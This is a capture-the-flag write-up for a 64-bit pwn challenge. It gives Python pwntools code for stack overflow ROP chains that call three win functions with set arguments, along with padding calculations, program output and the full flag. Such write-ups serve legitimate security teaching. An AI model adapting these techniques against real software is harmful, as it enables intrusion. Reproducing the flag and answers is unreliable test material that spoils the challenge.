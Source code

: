 # 64 bits in my Ark and Texture

## 🧩 Challenge Summary

- **Category**: Pwn  
- **Points**: 300  
- **Solves**: 108 teams

---

### 📝 Problem Description

> Can you pwn it? No libc or system needed. Just good ol’ 64-bit binary exploitation.

---

## 🧠 Challenge Structure

The binary presents three sequential stages.  
Each stage involves answering quiz questions and crafting a ROP payload to jump to a specific `win` function.  
Each function reveals a part of the flag:

- `win1()` → First part of the flag  
- `win2(arg)` → Second part  
- `win3(arg1, arg2, arg3)` → Final part

---

## ✅ Exploitation Flow

### 🔹 Step 1: Pass the Intro Quiz

In an **x86-64 Linux architecture**, answer the following questions correctly to unlock the challenges:

- Q1: Functions read their arguments from the stack → Answer: `False (2)`
- Q2: First argument register → Answer: `RDI (1)`
- Q3: Return value register → Answer: `RAX (4)`

```python
for ans in [b"2", b"1", b"4"]:
    r.sendlineafter(b"?", ans)
```

---

### 🔹 Step 2: Jump to `win1()` (First part of flag)

- **Buffer padding: `0x98`**

  This was calculated by examining the stack layout in the function:

  ```c
  int __fastcall main(int argc, const char **argv, const char **envp) {
      char s[8]; // [rsp+0h] [rbp-90h] BYREF
      fgets(s, 512, stdin);
  }
  ```

  Here's a quick breakdown of the layout:

  ```
  [rbp - 0x90]  -> s (start of input buffer)
  [rbp + 0x08]  -> return address
  -------------------------------
  padding = 0x90 + 0x08 = 0x98
  ```

- **ROP chain**: Built using `rop.call()` to invoke `win1()`

```python
def build_rop_payload(padding_len, win_func, *args):
    rop = ROP(elf)
    rop.raw(b"A" * padding_len)
    rop.raw(rop.ret)  # Stack alignment for 16-byte requirement
    rop.call(win_func, list(args))
    return rop.chain()

def exploit_win1(r):
    payload = build_rop_payload(0x98, elf.sym.win1)
    r.sendlineafter(b"\n", payload)
    r.recvuntil(b"advance.")
    return r.recvline().strip().decode()
```

💬 Output:

```
You have passed the first challenge. The next one won't be so simple.
Lesson 2 Arguments: Research how arguments are passed to functions and apply your learning. Bring the artifact of 0xDEADBEEF to the temple of 0x401314 to claim your advance.
DawgCTF{C0ngR4tul4t10ns_
```

---

### 🔹 Step 3: Jump to `win2()` (Second part of flag)

- **Buffer padding: `0x28`**

  Stack layout from inside `win1()`:

  ```c
  __int64 win1() {
      char s[8]; // [rsp+0h] [rbp-20h] BYREF
      fgets(s, 96, stdin);
  }
  ```

  Layout breakdown:

  ```
  [rbp - 0x20]  -> s (start of input buffer)
  [rbp + 0x08]  -> return address
  -------------------------------
  padding = 0x20 + 0x08 = 0x28
  ```

- **Argument**: `0xdeadbeef`

- **ROP chain**: Uses `rop.call()` to call `win2(0xdeadbeef)`

```python
def exploit_win2(r):
    payload = build_rop_payload(0x28, elf.sym.win2, 0xdeadbeef)
    r.sendlineafter(b"Continue: \n", payload)
    r.recvuntil(b"you\n")
    return r.recvline().strip().decode()
```

💬 Output:

```
You have done well, however you still have one final test. You must now bring 3 artifacts of [0xDEADBEEF] [0xDEAFFACE] and [0xFEEDCAFE]. You must venture out and find the temple yourself. I believe in you

d15c1p13_y0u_
```

---

### 🔹 Step 4: Jump to `win3()` (Final part of flag)

- **Buffer padding: `0x38`**

  Stack layout inside `win2()`:

  ```c
  __int64 __fastcall win2(int a1) {
      char v2[8]; // [rsp+10h] [rbp-30h] BYREF
      fgets(v2, 256, stdin);
  }
  ```

  Layout breakdown:

  ```
  [rbp - 0x30]  -> v2 (start of input buffer)
  [rbp + 0x08]  -> return address
  -------------------------------
  padding = 0x30 + 0x08 = 0x38
  ```

- **Arguments**: `0xdeadbeef, 0xdeafface, 0xfeedcafe`

- **ROP chain**: Uses `rop.call()` to invoke `win3(...)`

```python
def exploit_win3(r):
    payload = build_rop_payload(0x38, elf.sym.win3, 0xdeadbeef, 0xdeafface, 0xfeedcafe)
    r.sendlineafter(b"Test: \n", payload)
    r.recvuntil(b"reward\n\n")
    return r.recvline().strip().decode()
```

💬 Output:

```
Congratulations. You are deserving of you reward


4r3_r34dy_2_pwn!}
```

---

## 🏁 Flag

By combining the outputs from all three stages, the complete flag is:

```
DawgCTF{C0ngR4tul4t10ns_d15c1p13_y0u_4r3_r34dy_2_pwn!}
```
